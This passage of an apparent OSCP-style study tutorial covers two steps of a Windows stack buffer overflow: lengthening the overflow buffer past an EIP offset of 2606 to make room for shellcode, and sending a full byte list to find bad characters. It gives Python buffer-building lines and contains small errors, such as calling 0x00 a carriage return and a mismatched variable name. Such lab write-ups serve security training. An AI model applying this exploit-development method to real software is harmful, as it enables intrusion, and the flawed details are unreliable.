 ### 3. Make space for the shellcode (ESP)
With our current exploit the ESP points to the beginning of the string of 90 * **C**. The problem is that 90 bytes – not enough for full shellcode which will be ~350 bytes.
Can we extend buffer to 3500 to make room for shellcode? If the ESP is located at 2606 + 4. Can we add some more buffer after this to make space for the shellcode. So we retry the earlier exploit but with a longer buffer of **C**s. See below:
```python
buffer = "A" * 2606 + "B" * 4 + "C" * (3500 – 2606 - 4)
```
The result is in the figure below (3).

![image](/assets/images/oscp/win_buff_1.JPG "step 2a, 2b, 3")

As we can see, our buffer overflow still crashes the app. We now have some space to insert our shellcode...

### 4. Discover bad characters (\0x00, \0x0D, \0x0A, etc)
We do need to ensure that no **bad characters** get sent in the buffer. We know that **A**s, **B**,s and **C**s dont seem to be an issue thus far. But what about characters like **00** that represent carriage return! We need to find all possible bad characters and ensure that our shellcode is composed without them. We can achieve this by sending a full list of all possible characters in the buffer starting from the ESP (where our shellcode will start). Immunity debugger has the ability to identify the bad characters if we simply examine the hex dump from the ESP onwards! 

We replace the long **C** string with this complete hex character list.
```python
bad chars = "\x00\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28 \x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50 \x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78 \x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0 \xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8 \xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0 \xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"

buffer = "A" * 2606 + "B" * 4 + badchars
```
